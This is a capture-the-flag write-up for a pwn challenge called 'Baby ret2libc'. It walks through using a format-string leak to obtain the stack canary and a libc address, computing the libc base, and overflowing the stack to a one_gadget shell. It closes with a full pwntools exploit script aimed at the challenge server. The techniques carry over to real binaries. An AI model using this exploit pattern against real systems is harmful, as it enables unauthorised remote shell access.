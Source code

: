 # Baby ret2libc
![](https://img.shields.io/badge/category-pwn-blue)
![](https://img.shields.io/badge/points-125-orange)

## Description
```
placeholder - problem hidden
```

## Solution
This question is basically identical to [Baby Cookie](https://github.com/jdabtieu/LyonCTF-white_flag/blob/main/babycookie.md) except that instead of returning to the print_flag function, we need to return to libc instead.

The stack cookie can be leaked the same way, and instead of leaking the address of main, we want to leak any address inside libc. Checking the stack, we see that two entries below the cookie, is a pointer to __libc_start_main+243. Score!
```
0088| 0x7ffdec2dcf88 --> 0xf9838f81ac4f2700 
0096| 0x7ffdec2dcf90 --> 0x0 
0104| 0x7ffdec2dcf98 --> 0x7f7a58ef40b3 (<__libc_start_main+243>:       mov    edi,eax)
```

Now that we know this, we can use <libc.blukat.me> to help us find the libc offset.

Testing `%19$p` against the server results in an address that ends in `f0b3` (your first digit might be different). While PIE does randomize the location of code, all segments must begin at an address that ends in `000`, including libc itself. Thus, if we calculate `0xf0b3 - 243`, we get `0xefc0`, meaning that [__libc_start_main exists at offset `fc0`](https://libc.blukat.me/?q=__libc_start_main%3Afc0&l=libc6_2.31-0ubuntu9.2_amd64).

This corresponds to `libc6_2.31-0ubuntu9.2_amd64`, meaning that the server runs this version of libc. We should make sure that our program also uses same version.

```
$ ldd babyret2libc 
        linux-vdso.so.1 (0x00007ffe6bd8c000)
        libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007fdc22fbb000)
        /lib64/ld-linux-x86-64.so.2 (0x00007fdc231bf000)
$ /lib/x86_64-linux-gnu/libc.so.6
GNU C Library (Ubuntu GLIBC 2.31-0ubuntu9.2) stable release version 2.31.
```

Luckily for me, I run the same version of libc, so no modifications need to be made.

The website also tells us that __libc_start_main is 0x026fc0 bytes past the start of libc, meaning that the libc base address will be our leaked address - 243 - 0x026fc0.

Once we know that, we can use the buffer overflow to jump to a gadget that gives us a shell. Using one_gadget, I was able to find a gadget that works as long as the r15 and rdx registers are null, which is true for this program.
```
# 0xe6c81 execve("/bin/sh", r15, rdx)
[----------------------------------registers-----------------------------------]
...
RDX: 0x0 
...
R15: 0x0
EFLAGS: 0x246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x5609ef104360 <main+343>:   je     0x5609ef104367 <main+350>
   0x5609ef104362 <main+345>:   call   0x5609ef1040c0 <__stack_chk_fail@plt>
   0x5609ef104367 <main+350>:   leave  
=> 0x5609ef104368 <main+351>:   ret    
```

The final exploit will consist of these steps:
1. Leak canary and __libc_start_main+243
2. Calculate libc base
3. Stack overflow to libc base + 0xe6c81, making sure to keep the stack canary intact
4. Win!

```py
# %19$p - __libc_start_main+243
# %17$p - canary

# 0xe6c81 execve("/bin/sh", r15, rdx)

from pwn import *

#p = process("./babyret2libc")
p = remote("17fae81.0x16.ink", 32760)

pay = b'\n'*4 + b'%19$p %17$p'

p.sendline(pay)
p.recvuntil(b'name?\n')
p.recvuntil(b'Hi ')

addrs = p.recvuntil(b'\n')[:-1].split(b' ')
libc_start_main_243 = int(addrs[0], 16)
canary = int(addrs[1], 16)

log.info("Canary: " + hex(canary))
log.info("__libc_start_main+243: " + hex(libc_start_main_243))

libc_base = libc_start_main_243 - 243 - 0x026fc0
assert(libc_base & 0xfff == 0)          # gotta make sure libc base ends in 0x000, otherwise we made a mistake
log.info("libc base: " + hex(libc_base))
gadget = libc_base + 0xe6c81
log.info("gadget: " + hex(gadget))

pay = b'A'*8*9 + p64(canary) + p64(0) + p64(gadget) # 9 stack entries of garbage + canary + garbage + give us shell!
p.sendline(pay)
p.interactive()
```


Flag: `placeholder - problem hidden`
